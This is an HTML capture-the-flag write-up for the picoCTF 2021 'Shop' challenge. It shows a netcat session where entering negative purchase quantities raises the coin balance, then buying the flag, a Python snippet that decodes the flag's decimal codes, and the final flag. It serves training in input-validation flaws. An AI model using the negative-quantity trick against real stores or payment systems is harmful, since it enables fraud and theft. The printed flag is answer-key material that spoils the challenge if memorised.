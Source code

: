 
<!DOCTYPE html>
<html>

<body>
    <h1>Shop-  picoctf2021</h1>

    <h2>Challenge Description</h2>
    <p> AUTHOR: THELSHELL

Description
Best Stuff - Cheap Stuff, Buy Buy Buy... Store Instance: source. The shop is open for business at nc mercury.picoctf.net 42159.
</p>
merge
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
        we run nc and see that count  of items have no control on negative values so can choice -items and and increase coins of our wallet and buy flag with this options
    <p id="code1">
How many do you want to buy?
-2
You have 60 coins
        Item            Price   Count
(0) Quiet Quiches       10      14
(1) Average Apple       15      8
(2) Fruitful Flag       100     1
(3) Sell an Item
(4) Exit
Choose an option: 
0
How many do you want to buy?
-4
You have 100 coins
        Item            Price   Count
(0) Quiet Quiches       10      18
(1) Average Apple       15      8
(2) Fruitful Flag       100     1
(3) Sell an Item
(4) Exit
Choose an option: 
2
How many do you want to buy?
1
Flag is:  [112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 55 57 55 98 50 57 50 99 125]
)
</p>
<pre>s="112 105 99 111 67 84 70 123 98 52 100 95 98 114 111 103 114 97 109 109 101 114 95 55 57 55 98 50 57 50 99 125"
d=""
for ch in s.split():
  d+=chr(int(ch))
print(d)
</pre>
    </ol> 
<br>
 
    <h2>Flag</h2>
    <p class="flag">picoCTF{b4d_brogrammer_797b292c}

</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for  hack sample network shop and convert decimal arrays value to string</p>
</body>
</html>

